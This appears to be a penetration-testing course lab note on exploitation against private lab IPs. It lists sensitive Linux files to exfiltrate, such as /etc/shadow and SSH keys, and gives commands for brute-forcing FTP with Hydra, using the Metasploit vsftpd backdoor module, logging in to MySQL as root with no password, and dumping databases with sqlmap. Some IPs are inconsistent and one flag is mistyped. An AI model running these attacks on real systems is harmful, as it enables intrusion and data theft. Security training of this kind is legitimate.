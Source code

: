 ```yaml
---
title: '4. Lab 4: Exploitation'
updated: 2023-04-23 04:14:00Z
created: 2023-04-22 20:55:19Z
---
```

# **Exploitation**
Exploitation is when we take our enumerated targets and capitalize on them.
**REPEAT DISCLAIMER**

## **Linux Exfiltration Target Files:**
- These are all target files we should keep a lookout for as they hold confidential information that could compromise CIA
	- /etc/passwd
	- /etc/shadow
	- /etc/issue
	- /etc/group
	- /etc/hostname
	- /etc/ssh/ssh_config
	- /etc/ssh/sshd_config
	- /root/.ssh/id_rsa
	- /root/.ssh/authorized_keys
	- /home/user/.ssh/authorized_keys
	- /home/user/.ssh/id_rsa

## Using Hydra to Bruteforce FTP
- Hydra is a credential bruteforcing tool included with Kali Linux
	- Type 'hydra -hh' in your terminal to view Hydra's full functioanlity:
- To bruteforce with Hydra, we will once again use wordlists, but this time we will use credential lists
	- In your Kali terminal type:
	- hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.1.139 -o /home/user/Documents/hydra_ftp.txt
		- The -C flag tells Hydra that the wordlist we are providing has credentials in a 'username:password' format.
		- The -o flag tells Hydra we want to output the results to a text file called hydra_ftp in our Documents folder
	- Now that we have some credentials from Hydra, type the following in your terminal:
		- ftp 192.168.9.239
			- You will be prompted to log in.
			- Let's try some credential form our bruteforce attack:
			- Username: "user" : Password: "user"
			- Check our working directory with "pwd"
			-  Check the folders and files with "dir"
			- Move back a directory with "cd .."
			- One more time "cd .."
			- "dir" to view all files and folders again
			- See any files worth exfiltrating?
			- Use "get <filename>" in your terminal to re them

## Exploiting FTP With Metasploit
- In your Kali terminal type **msfconsole**
- **msfconsole>** search 'ftp'
	- [NVD - CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
- **msfconsole**> use exploit/unix/ftp/vsftpd_234_backdoor

## Exploiting MySql Manually
- To log into MySql, we use the following login template in our terminals:
	- mysql -h {hostname} -u username -p {databasename}
- Since we don't have any credentials yet, let's do some research on default MySql creds
	- [MySQL - What is the Default Username and Password?](https://dbschema.com/2020/04/21/mysql-default-username-password/#:~:text=The%20default%20user%20for%20MySQL,it%20and%20choose%20another%20one.)
- Using info from our research, we can try the default credentials for MySql
- In your terminal type:
	- mysql -u root -h 192.168.1.103 -p
	- Here we use the -u flag for a username of 'root'
	- Since the default password for MySql is empty, we leave the -p (password) flag empty as well
- Using MySQL in the terminal:
	- From the mysql> prompt:
	- SHOW DATABASES
		- "use 'database_name'"
			- SHOW TABLES

## Exploiting MySql With SqlMap
- You may have noticed some of the other options for SqlMap in the enumeration step. Now is when we get to use them.
- In your terminal, type the following:
	- sqlmap -d "mysql://root:@192.168.9.239:3306/" ---dump-all --output-dir=/home/user/Documents/ 
